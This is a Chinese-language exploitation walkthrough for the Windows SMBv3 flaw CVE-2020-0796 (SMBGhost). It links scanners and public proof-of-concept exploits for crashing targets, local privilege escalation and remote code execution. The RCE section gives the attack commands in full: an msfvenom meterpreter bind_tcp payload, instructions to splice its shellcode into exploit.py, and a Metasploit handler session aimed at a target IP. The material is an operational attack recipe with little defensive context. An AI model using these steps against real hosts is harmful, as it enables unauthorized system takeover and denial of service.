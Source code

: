 ![img](./images/1627103610298-982f6ead-a91f-46c8-85fa-5f69f436f47f.png)

### CVE-2020-0796 目标探测(奇安信)

使用奇安信的漏洞扫描来探测：[奇安信 CVE-2020-0796 扫描下载](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)

![img](./images/1627103611100-9024e27a-d488-4c8c-861e-f791256c65ed.png)

### CVE-2020-0796 蓝屏EXP

运行脚本后目标成功蓝屏：[Github CVE-2020-0796 蓝屏EXP 下载](https://github.com/eerykitty/CVE-2020-0796-PoC)

![img](./images/1627103611063-74ff70af-f1bb-457a-9b0b-5a87d2a86cc4.png)

### CVE-2020-0796 本地提权EXP

运行应用程序后弹出cmd窗口为 system权限：[Github CVE-2020-0796 本地提权EXP 下载](https://github.com/danigargu/CVE-2020-0796)

![img](./images/1627103611077-e1fc15be-d3ea-4036-82f2-5cf7a90f7ea9.png)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

### CVE-2020-0796 RCE EXP

RCE：[Github CVE-2020-0796 RCE EXP](https://github.com/chompie1337/SMBGhost_RCE_PoC)

msfvenom生成reversed shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py
```

将生成exp.py中的shellcode替换exploit.py中的shellcode

![img](./images/1627103611172-2054aa5a-50ed-4b22-b507-2e2708bb277b.png)

![img](./images/1627103611207-6e81b26c-ebc8-4012-a66a-cd4cb919ca53.png)

**buf 要替换为 USER_PAYLOAD**

使用 MSF

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```

**注意有蓝屏概率**